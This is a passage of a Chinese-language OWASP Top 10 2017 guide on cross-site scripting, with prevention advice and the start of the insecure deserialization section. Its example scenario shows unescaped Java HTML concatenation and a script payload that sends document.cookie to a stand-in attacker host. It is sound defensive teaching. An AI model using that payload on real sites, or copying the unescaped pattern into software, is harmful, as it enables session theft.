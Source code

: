 #### [#](#知识点简介-6) 知识点简介

存在三种 XSS 类型，通常针对用户的浏览器：

* **反射式 XSS**：应用程序或 API 包括未经验证和未经转义的用户输入，作为 HTML 输出的一部分。一个成功的攻击可以让攻击者在受害者的浏览器中执行任意的 HTML 和 JavaScript。 通常，用户将需要与指向攻击者控制页面的某些恶意链接进行交互，例如恶意漏洞网站，广告或类似内容。

* **存储式 XSS**：你的应用或者 API 将未净化的用户输入存储下来了，并在后期在其他用户或者管理员的页面展示出来。 存储型 XSS 一般被认为是高危或严重的风险。

* **基于 DOM 的 XSS**：会动态的将攻击者可控的内容加入页面的 JavaScript 框架、单页面程序或 API 存在这种类型的漏洞。理想的来说，你应该避免将攻击者可控的数据发送给不安全的 JavaScriptAPI。

典型的 XSS 攻击可导致盗取 session、账户、绕过 MFA、DIV 替换、对用户浏览器的攻击（例如：恶意软件下载、键盘记录）以及其他用户侧的攻击。

#### [#](#案例场景-6) 案例场景

场景 #1：应用程序在下面 HTML 代码段的构造中使用未经验证或转义的不可信的数据：

```
(String) page += "<input name='creditcard' type='TEXT‘
value='" + request.getParameter("CC“) + "'>";


```

攻击者在浏览器中修改 “CC” 参数为如下值：

```
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.


```

这个攻击导致受害者的会话 ID 被发送到攻击者的网站，使得攻击者能够劫持用户当前会话。

注意：攻击者同样能使用跨站脚本攻破应用程序可能使用的任何跨站请求伪造（CSRF）防御机制。CSRF 的详细情况见 2013 年版中的 A8 项。

#### [#](#如何防止-6) 如何防止?

防止 XSS 需要将不可信数据与动态的浏览器内容区分开。这可以通过如下步骤实现：

* 使用设计上就会自动编码来解决 XSS 问题的框架，如：Ruby 3.0 或 React JS。了解每个框架的 XSS 保护的局限性，并适当地处理未覆盖的用例。
* 为了避免反射式或存储式的 XSS 漏洞，最好的办法是根据 HTML 输出的上下文（包括：主体、属性、JavaScript、CSS 或 URL）对所有不可信的 HTTP 请求数据进行恰当的转义 。更多关于数据转义技术的信息见：[《OWASP Cheat Sheet ‘XSS Prevention’》在新窗口打开](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)。
* 在客户端修改浏览器文档时，为了避免 DOM XSS 攻击，最好的选择是实施上下文敏感数据编码。如果这种情况不能避免，可以采用[《OWASP Cheat Sheet ‘DOM based XSS Prevention ‘》在新窗口打开](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)描述的类似上下文敏感的转义技术应用于浏览器 API。
* 使用内容安全策略（[CSP 在新窗口打开](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)）是对抗 XSS 的深度防御策略。如果不存在可以通过本地文件放置恶意代码的其他漏洞（例如：路径遍历覆盖和允许在网络中传输的易受攻击的库），则该策略是有效的。

### [#](#a8-2017-–-不安全的反序列化) A8:2017 – 不安全的反序列化

> 不安全的反序列化会导致远程代码执行。即使反序列化缺陷不会导致远程代码执行，攻击者也可以利用它们来执行攻击，包括：重播攻击、注入攻击和特权升级攻击。

#### [#](#知识点简介-7) 知识点简介
